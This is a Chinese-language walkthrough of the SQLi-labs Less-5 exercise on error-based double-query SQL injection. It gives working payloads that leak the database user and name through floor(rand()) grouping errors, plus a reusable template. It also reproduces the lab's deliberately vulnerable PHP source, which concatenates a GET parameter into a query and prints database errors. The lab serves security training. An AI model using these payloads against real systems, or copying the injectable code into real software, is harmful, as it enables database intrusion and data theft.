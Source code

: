 # Less-5 **GET Double Query- Single Quotes- String**
TAG:字符型注入、报错注入、双查询注入  
## 漏洞利用
输入?id=1时，返回You are in………  
![less5_1](images\less5_1.png)  
输入?id=100时，无返回  
![less5_2](images\less5_2.png)  

页面名提示这个是双查询注入，但这种情况也可以进行盲注   
单独在字符后输入一个单引号，发现有报错，可以通过报错获取信息
![less5_3](images\less5_3.png)  

存在报错信息，但是不存在回显点，考虑进行双查询注入  

构造注入语句查询数据库用户  
payload:```?id=1' union select 1,count(*),concat((select user()),floor(rand()*2))as a from information_schema.tables group by a--+```  
有时候需要刷新几次才能出结果  
![less5_5](images\less5_5.png)  

构造语句获取数据库名  
payload:```?id=1' union select 1,count(*),concat((select database()),floor(rand()*2))as a from information_schema.tables group by a--+```  
![less5_6](images\less5_6.png)  

替换payload来达成不同的查询  
```?id=1' union select 1,count(*),concat((payload),floor(rand()*2))as a from information_schema.tables group by a--+```  

## 源码分析  
### less5源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-5 Double Query- Single Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>

</font> </div></br></br></br><center>
<img src="../images/Less-5.jpg" /></center>
</body>
</html>
```
### 漏洞点分析：  
```
<?php
    include("../sql-connections/sql-connect.php");
    error_reporting(0);
    if(isset($_GET['id'])){
        $id=$_GET['id'];
        $fp=fopen('result.txt','a');
        fwrite($fp,'ID:'.$id."\n"); 
        fclose($fp); 
        $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
        $result=mysql_query($sql);
        $row = mysql_fetch_array($result);
        if($row){
  	        echo '<font size="5" color="#FFFF00">';	
  	        echo 'You are in...........';
  	        echo "<br>";
    	    echo "</font>";
        }
        else{
	        echo '<font size="3" color="#FFFF00">';
	        print_r(mysql_error());
	        echo "</br></font>";	
	        echo '<font color= "#0000ff" font size= 3>';	
	    }
    }
	else { echo "Please input the ID as parameter with numeric value";}
?>
``` 

这个less在对接受参数的处理与less1相同，但是并不会显示查询到的数据，也就是没有回显点  
通过分析代码与对页面实际操作可以发现，数据库操作的错误信息被输出到页面上，那就意味着可以进行报错注入  
构造一个双查询的注入语句就可以实现数据库信息的获取  